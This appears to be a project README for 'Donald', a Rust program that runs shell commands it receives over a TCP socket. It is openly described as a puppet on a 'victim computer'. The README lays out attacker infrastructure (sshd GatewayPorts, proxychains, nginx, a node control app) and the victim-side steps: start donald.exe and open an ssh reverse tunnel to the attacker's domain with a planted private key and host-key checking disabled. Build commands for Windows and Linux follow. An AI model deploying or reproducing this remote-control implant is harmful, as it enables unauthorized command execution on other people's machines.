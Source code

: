 # Donald

_back to white house_

Donald takes an message from a TCP socket and run system command : cmd(message);
It's a puppet.

```
       ////\\\\
     ////    \\\\
    |    O  O    |
    |      ^      |
    |   \\_____/   |
     \\            /
      \\__________/
```

## Why ?

If you succeed to create a reverse shell with a proxy ( like wiht ssh ) you may want to run custom command from your server.

### How to setup the server ?

![alt text](image.png)

1. Edit /etc/ssh/sshd_config to set GatewayPorts to yes
2. Setup proxychains in socks4 127.0.0.1 <ZPORT>
3. cd whitehouse && npm install && node app.js (sudo apt update && sudo apt install nodejs npm -y)
4. Configure nginx as reverse proxy for the node application (sudo apt install nginx)
5. Configure nginx with https certificate (sudo certbot --nginx -d <domain>)
6. Run the app.js in a first terminal
7. Prepare a second terminal : "echo 'test' | proxychains 127.0.0.1 <DONALD_LISTENPORT>"

### On the victim computer

1. Start donald.exe
2. ssh -o StrictHostKeyChecking=accept-new -R <ZPORT> -i .\id_rsa <SSH_USER>@<domain> (use -v -v -v -v for debug) (and obviously put the id_rsa file on the target and associated public key on the server)

## Build

Edit build.rs with adapted values.

Linux target :

```
cargo build --release
```

Windows target :

```
cargo build --release --target x86_64-pc-windows-gnu
```

If error this might solve:

```
sudo apt install mingw-w64
rustup target add x86_64-pc-windows-gnu
```

## Setup

## Debug

It's rust. No bug.
